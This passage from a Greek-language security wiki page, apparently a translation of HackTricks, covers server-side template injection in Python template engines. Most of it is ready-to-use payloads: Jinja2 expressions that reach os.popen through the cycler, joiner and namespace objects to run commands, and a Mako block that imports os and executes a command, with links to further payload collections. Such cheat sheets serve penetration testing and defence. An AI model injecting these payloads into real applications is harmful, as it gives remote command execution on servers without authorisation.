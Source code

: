 ```python
{% raw %}
{% extends "layout.html" %}
{% block body %}
<ul>
{% for user in users %}
<li><a href="{{ user.url }}">{{ user.username }}</a></li>
{% endfor %}
</ul>
{% endblock %}
{% endraw %}


```
[**RCE που δεν εξαρτάται από**](https://podalirius.net/en/articles/python-vulnerabilities-code-execution-in-jinja-templates/) `__builtins__`:
```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}

# Or in the shotest versions:
{{ cycler.__init__.__globals__.os.popen('id').read() }}
{{ joiner.__init__.__globals__.os.popen('id').read() }}
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```
**Περισσότερες λεπτομέρειες σχετικά με το πώς να εκμεταλλευτείτε το Jinja**:


{{#ref}}
jinja2-ssti.md
{{#endref}}

Άλλες payloads στο [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2)

### Mako (Python)
```python
<%
import os
x=os.popen('id').read()
%>
${x}
```
**Περισσότερες πληροφορίες**

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#mako](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#mako)

### Άλλο Python

<figure><img src="../../images/image (2) (1).png" alt=""><figcaption><p><a href="https://miro.medium.com/v2/resize:fit:640/format:webp/1*3RO051EgizbEer-mdHD8Kg.jpeg">https://miro.medium.com/v2/resize:fit:640/format:webp/1*3RO051EgizbEer-mdHD8Kg.jpeg</a></p></figcaption></figure>
